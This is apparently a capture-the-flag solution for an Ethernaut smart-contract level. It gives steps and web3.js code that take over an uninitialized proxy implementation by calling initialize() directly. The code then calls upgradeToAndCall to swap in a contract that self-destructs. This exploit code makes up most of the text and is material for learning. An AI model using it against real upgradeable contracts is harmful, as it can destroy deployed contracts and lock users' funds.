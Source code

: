 ## Solving this challenge requires a combination of both deploying a contract and calling some function on the ethernaut page
### General steps
1. Get engine contract address
2. Initialize engine directly and set player address as upgrader (rather than through proxy)
3. Deploy new contract with selfDestruct
4. Upgrade to new deployed contract and call function to self destruct

### Code
```
iAdd = await web3.eth.getStorageAt(contract.address, '0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc')
iAdd = '0x' + iAdd.slice(-40)

initializeData = web3.eth.abi.encodeFunctionSignature("initialize()")
await web3.eth.sendTransaction({ from: player, to: iAdd, data: initializeData })

upgraderData = web3.eth.abi.encodeFunctionSignature("upgrader()")
await web3.eth.call({from: player, to: iAdd, data: upgraderData}).then(v => '0x' + v.slice(-40).toLowerCase()) === player.toLowerCase()

// Deploy BombEngine and replace BombEngine-instance-address with the deployed address
bombAdd = '<BombEngine-instance-address>'
explodeData = web3.eth.abi.encodeFunctionSignature("explode()")

upgradeSignature = {
    name: 'upgradeToAndCall',
    type: 'function',
    inputs: [
        {
            type: 'address',
            name: 'newImplementation'
        },
        {
            type: 'bytes',
            name: 'data'
        }
    ]
}

upgradeParams = [bombAdd, explodeData]
upgradeData = web3.eth.abi.encodeFunctionCall(upgradeSignature, upgradeParams)
await web3.eth.sendTransaction({from: player, to: iAdd, data: upgradeData})
```